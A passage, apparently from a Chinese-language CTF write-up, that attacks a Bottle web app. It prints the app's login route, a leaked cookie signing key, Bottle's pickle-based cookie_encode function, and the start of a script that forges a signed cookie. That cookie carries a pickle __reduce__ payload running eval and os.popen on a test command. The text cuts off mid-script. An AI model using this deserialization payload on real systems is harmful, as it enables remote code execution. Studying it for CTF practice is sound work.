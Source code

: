 		  
		  @error(404)
		  def error404(error):
		      return template("error")
		  
		  
		  @route("/login")
		  def index():
		      try:
		          session = request.get_cookie("user", secret=key)
		          if not session or session["user"] == "ggg":
		              session = {"user": "ggg"}
		              response.set_cookie("name", session, secret=key)
		              return template("guest", name=session["user"])
		          if session["user"] == "admin":
		              return template("admin", name=session["user"])
		      except:
		          return "baDDDDDDDDDdddddddddddddddd"
		  
		  
		  if __name__ == "__main__":
		      os.chdir(os.path.dirname(__file__))
		      run(host="0.0.0.0", port=8080)
		  
		  ```
	- `/app/config/secret.py`
		- ```python
		  key = "Th1sIIIIIIsAAAsecret"
		  ```
	- 读bottle签名cookie的代码
		- ```python
		  def cookie_encode(data, key):
		      ''' Encode and sign a pickle-able object. Return a (byte) string '''
		      msg = base64.b64encode(pickle.dumps(data, -1))
		      sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
		      return tob('!') + sig + tob('?') + msg
		  ```
	- 伪造cookie并提交
		- ```python
		  import pickle
		  import base64
		  import hmac
		  import hashlib
		  import requests
		  
		  url = "xxx"
		  
		  cmd = "__import__('os').popen('{}').read()".format("echo 114514; sleep 5;")
		   
		  class payload(object):
		      def __reduce__(self):
		         return (eval, (cmd,))
		  
		  def tob(s: str):
		      return s.encode("utf-8")
		  